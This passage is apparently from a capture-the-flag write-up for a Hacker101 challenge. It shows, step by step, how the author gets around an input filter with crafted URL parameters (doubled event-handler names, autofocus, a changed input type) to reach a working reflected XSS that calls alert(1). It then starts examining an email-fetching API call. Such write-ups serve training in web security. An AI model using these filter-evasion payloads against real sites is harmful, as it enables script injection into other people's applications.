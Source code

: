 ```https://xxx.ctf.hacker101.com/?searchtxt=hi" onfocus=alert(1)```

Also stripped

```html
<input value="hi" =alert(1)"="" name="searchtxt" type="hidden">
```

Can I trick it?

```https://xxx.ctf.hacker101.com/?searchtxt=hi" ononfocusfocus=alert(1)```

Ooo getting somewhere

```html
<input value="hi" onfocus="alert(1)&quot;" name="searchtxt" type="hidden">
```

Right I need to focus it

```https://xxx.ctf.hacker101.com/?searchtxt=hi" ononfocusfocus="alert(1)" autofocus x="```

OK, but the event doesn't fire

```html
<input value="hi" onfocus="alert(1)" autofocus="" x="" name="searchtxt" type="hidden">
```
Probably because it's a hidden input type, let's change that

```
https://xxx.ctf.hacker101.com/?searchtxt=hi" ononfocusfocus="alert(1);" autofocus type="text" x="
```

Yay the focus event fired we have XSS :)

```html
<input value="hi" onfocus="alert(1);" autofocus="" type="text" x="" name="searchtxt">
```


### Not allowed to view emails?

So this probably isn't XSS per-se but apparently "You are not allowed to view emails" ok that sets my alarm bells ringing.

Back to custom.js, another function which isn't directly called from within the HTML

```javascript
function retrieveEmail(e) {
  var t = new XMLHttpRequest;
  t.open('GET', 'api/action.php?act=getemail', !0),
  t.setRequestHeader('X-SAFEPROTECTION', 'enNlYW5vb2Zjb3Vyc2U='),
  t.onreadystatechange = function () {
    this.readyState === XMLHttpRequest.DONE && this.status
  },
  t.send()
}
```
